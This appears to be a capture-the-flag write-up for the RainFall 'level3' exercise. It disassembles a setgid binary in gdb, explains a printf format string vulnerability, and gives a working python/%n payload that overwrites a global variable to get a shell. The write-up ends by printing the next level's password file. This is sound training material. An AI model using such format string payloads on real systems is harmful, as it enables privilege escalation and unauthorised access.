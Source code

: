 # level3

## Hint

When we log into the machine as `level3`, we notice a binary:

```shell-session
level3@RainFall:~$ ls -l
total 6
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

First, we'll need to see all available global symbols

```gdb
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m                                               <-- Global variable m, in the bss section of object
```

Now lets look at the functions of the binary

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>                   <-- Call to v()
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
gdb-peda$ disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218                       <-- Space of 536 bytes allocated for the stack frame
   0x080484ad <+9>:	mov    eax,ds:0x8049860                <-- Load of stdin
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax         <-- Set stdin as 3rd argument to fgets()
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200       <-- Set 520 as 2nd argument to fgets()
   0x080484be <+26>:	lea    eax,[ebp-0x208]                 <-- Load char buffer[520]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax             <-- Set char buffer as 1st argument to fgets()
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>           <-- Call to fgets(buffer, 0x200, stdin)
   0x080484cc <+40>:	lea    eax,[ebp-0x208]                 <-- Load char buffer[520]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax             <-- Set char buffer as 1st argument to printf()
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>          <-- Call to printf with esp as conv string
   0x080484da <+54>:	mov    eax,ds:0x804988c                <-- Load global variable m
   0x080484df <+59>:	cmp    eax,0x40                        <-- Compate m with 0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>               <-- If not equivalent jump to v+116
   0x080484e4 <+64>:	mov    eax,ds:0x8049880                <-- Load of stdout
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600                   <-- Load of string "Wait what?!\n"
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx         <-- Set stdout as 4th argument to fwrite()
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc         <-- Set 0xc as 3rd argument to fwrite()
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1         <-- Set 1 as 2nd argument to fwrite()
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax             <-- Set string "Wait what?!\n" as 1st argument to fwrite()
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>          <-- Call to fwrite("Wait what?!\n", 1, 0xc, stdout)
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d    <-- Load "/bin/sh" as 1st argument to system()
   0x08048513 <+111>:	call   0x80483c0 <system@plt>       <-- Call to system("/bin/sh")
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

# Format String Attack

The vulnerabilty here is clearly the usage of an unsanitized user-defined conversion string and the lack of variadic argument to `printf`. This combination is very dangerous as it allows the user to display data and addresses found in the stack, and it's precisely what is required by this exercise as we can read [here](https://owasp.org/www-community/attacks/Format_string_attack):
> The attack could be executed when the application doesn’t properly validate the submitted input.
> In this case, if a Format String parameter, like %x, is inserted into the posted data, the string is parsed by the Format Function, and the conversion specified in the parameters is executed.
> However, the Format Function is expecting more arguments as input, and if these arguments are not supplied, the function could read or write the stack.

On top of that, we have type conversions and options at our disposal to access arbitrary positionnal arguments on the stack, namely:
- option `$` that is used with an integer `i` to access the `ith` argument positionned after printf
- type conversion `%n` that inserts an integer corresponding to the number of bytes written so far in the type conversion format.

This means:
```c
int randomarg;
int m;
printf("123%2$n", randomarg, &m); //will insert the value 3 at the addres of m
```

# Plan

There is a lot to unpack here, so lets proceed:

1. There is a conditionnal jump that leads to a shell but compares a static symbol `m` and a hardcoded value 64. This variable is outside of the control flow, so we must find a way to edit the contents of this variable without having access to it directly in order to reach the system call
2. The call to `printf` is vulnerable to user input. We can easily access values on the stack by feeding arbitrary conversion format to the function like `%s/p/x/n`
3. The addres of `m` is consistent. Thanks to the lack of ASLR on the VM.
4. By feeding the correct conversion through stdin, we will be able to write the correct value (`64`) in `m` so that the conditionnal jump succeeds and we end up with an open shell.

# Proceed



```shell-session
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + '%60c' + '%4\$n'"; cat -) | ./level3

Wait what?!
cat /home/user/$(whoami)/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
